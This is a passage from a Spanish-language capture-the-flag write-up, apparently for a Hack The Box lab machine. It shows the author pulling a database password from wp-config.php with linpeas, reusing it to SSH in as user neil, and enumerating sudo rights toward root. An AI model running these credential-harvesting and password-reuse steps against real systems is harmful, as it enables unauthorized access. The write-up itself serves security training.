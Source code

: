 ( ☞◔ ౪ ◔)☞ Tenemos una shell como www-data, realizamos el tratamiento de la TTY para tener una shell interactiva, vamos a enumerar el sistema para escalar privilegios con linpeas.sh y nos reporta una contraseña de neil

```bash
╔══════════╣ Analyzing Wordpress Files (limit 70)                                                                                                                                                                                          
-rw-r--r-- 1 www-data www-data 3185 Jan  7  2021 /var/www/html/wordpress/wp-config.php                                                                                                                                                     
define( 'DB_NAME', 'wordpress' );                                                                                                                                                                                                          
define( 'DB_USER', 'neil' );                                                                                                                                                                                                               
define( 'DB_PASSWORD', 'Opera2112' );                                                                                                                                                                                                      
define( 'DB_HOST', 'localhost' );
```

Podemos conectarnos por ssh con la cuenta de neil:

```bash
❯ ssh neil@10.10.10.223
The authenticity of host '10.10.10.223 (10.10.10.223)' can't be established.
ECDSA key fingerprint is SHA256:WV3NcHaV7asDFwcTNcPZvBLb3MG6RbhW9hWBQqIDwlE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.223' (ECDSA) to the list of known hosts.
neil@10.10.10.223's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

Last login: Thu Dec 17 10:59:51 2020 from 10.10.14.3
neil@tenet:~$ cat user.txt 
0db1ca0---8243fdd4268---------
neil@tenet:~$
```

# **ESCALACION DE PRIVILEGIOS**

Podemos ejecutar como cualquier usuario este script:

```bash
neil@tenet:~$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh

neil@tenet:~$ sudo -u root /usr/local/bin/enableSSH.sh
Successfully added root@ubuntu to authorized_keys file!
```

